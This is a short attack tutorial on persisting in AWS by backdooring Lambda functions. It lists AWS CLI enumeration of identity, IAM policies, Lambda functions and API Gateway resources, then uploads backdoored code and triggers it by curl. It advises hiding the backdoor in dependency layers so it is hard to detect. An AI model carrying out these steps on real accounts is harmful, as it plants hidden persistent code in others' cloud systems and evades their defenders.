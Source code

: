 # AWS Lambda and API Gateway Persistence

### If the user has sufficient rights in the lambda function, its possible to download the source code, add a backdoor to it and upload. Everytime the lambda executes, the malicious code will also execute.

### Always try to update the code of layers (dependencies) instead of the actual lambda code, this way our backdoor will be difficult to detect.

#### 1) Checking which user is executing

    aws sts get-caller-identity 

#### 2) Checking all managed policies attached to the user

    aws iam list-attached-user-policies --user-name USER_NAME 

#### 3) Checking information about a specific policy

    aws iam get-policy-version --policy-arn ARN --version-id ID 

#### 4) Listing all lambda functions

    aws lambda list-functions --region REGION 

#### 5) Listing information about the specified lambda

    aws lambda get-function --function-name NAME 

### Download and analyze the code, then:

    aws lambda get-policy --function-name NAME --profile PROFILE --region REGION

### We can grab informations like id, who can invoke and other details with this command (Helps to build the query to execute the lambda function).

#### 6) Listing Rest APIs

    aws apigateway get-rest-apis 

#### 7) Listing information about a specific API

    aws apigateway get-rest-api --rest-api-id ID 

#### 8) Listing information about endpoints

    aws apigateway get-resources --rest-api-id ID

#### 9) Listing information about a specific endpoint
   
    aws apigateway get-resource --rest-api-id ID --resource-id ID 

#### 10) Listing method information for the endpoint (Test various methods to see if the API supports it)

    aws apigateway get-method --rest-api-id ApiID --resource-id ID --http-method METHOD 

#### 11) List all versions of a rest API

    aws apigateway get-stages --rest-api-id ID 

#### 12) Getting information about a specific version

    aws apigateway get-stage --res-api-id ID --stage-name NAME 

#### 13) Uploading the backdoor code to aws lambda function

    aws lambda update-function-code --function-name FUNCTION --zip-file fileb://my-function/EXAMPLE 

#### 14) Invoke the function

    curl https://uj3948ie.execute-api.us-east-2.amazonaws.com/default/EXAMPLE

### Where:

#### 1. API-ID -> uj3948ie

#### 2. Region -> us-east-2

#### 3. Resource (Endpoint) -> EXAMPLE

#### 4. Method -> Get

#### 5. Stage (Version) -> default

#### 6. API-Key -> None

### All these details are gathered during enumeration
